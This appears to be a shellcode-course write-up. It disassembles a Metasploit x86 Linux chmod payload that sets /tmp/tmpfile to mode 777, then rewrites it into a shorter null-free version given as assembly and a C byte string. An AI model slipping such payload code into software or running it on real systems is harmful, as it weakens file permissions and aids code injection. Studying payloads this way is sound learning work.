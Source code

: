 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a
0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.


## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code to get a better understanding of what is happening.

```x86asm
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                          
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500
; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()    
```

## Changes

The first change I made was to `cdq` and replaced it with an `xor ecx, ecx` to clear ecx's value that will be used later. I then `mul ecx` that will result in a 0 with a remainder of 0, thus clearing the `eax` and `edx` registers as well.

```x86asm
; cdq
xor ecx, ecx				; zero out ebx
mul ecx             ; zero out eax, and edx 
```

I then replace the push/pop with a `mov al` since eax was cleared in the previous `mul` command.


```x86asm
; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
; pop eax             ; int chmod(const char *pathname, mode_t mode);
mov al, 0xf
```

Then, instead of making a `call` instruction to push a pointer to the filename parameter to the stack, I will push the string to the stack directly. To do this, I will push `edx`, which was cleared in the previous `mul` statement and then push the string in reverse order. Then I move the stack pointer into `ebx` to be used as the parameter. 

```x86asm
; pop ebx             ; ptr to: [string] /tmp/tmpfile
push edx
push 0x656c6966         ; "elif"
push 0x706d742f         ; "pmt/"
push 0x706d742f         ; "pmt/"
mov ebx, esp
```

Since `ecx` was cleared in the original `xor` statement in the shellcode, I will set it's lower 2 bytes to `0x1ff` with a single move instruction and not worry about pushing/poping from the stack.

```x86asm
; push dword 0x1ff    ; 
; pop ecx             ; ecx = 0x1ff - OCT = 777
mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode
```

I also remove the next push/pop and just `mov al, 0x1` for the exit statement as `eax` should be `0x0` if the `chmod()` was executed successfully.

```x86asm
; push byte +0x1      
; pop eax
mov al, 0x1        ; eax should be 0x0 from chmod() return value
```



## Final code
```x86asm
global _start

section .text
_start:
    ; cdq
    xor ecx, ecx				; zero out ebx
    mul ecx             ; zero out eax, and edx    

    ; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
    ; pop eax             ; int chmod(const char *pathname, mode_t mode);
    mov al, 0xf

    ; pop ebx             ; ptr to: [string] /tmp/tmpfile
    push edx
    push 0x656c6966         ; "elif"
    push 0x706d742f         ; "pmt/"
    push 0x706d742f         ; "pmt/"
    mov ebx, esp

    ; push dword 0x1ff    ; 
    ; pop ecx             ; ecx = 0x1ff - OCT = 777
    mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode

    int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)

    ; push byte +0x1      
    ; pop eax
    mov al , 0x1        ; eax should be 0x0 from chmod() return value

    int 0x80            ; exit() 
```

## Shellcode

```c
"\x31\xc9\xf7\xe1\xb0\x0f\x52\x68\x66\x69\x6c\x65\x68\x2f\x74\x6d\x70\x68\x2f\x74\x6d\x70\x89\xe3\x66\xb9\xff\x01\xcd\x80\xb0\x01\xcd\x80"
```

## Conclusion

Metasploit payload length is 37 bytes with nulls.
My payload length is 34 bytes without nulls.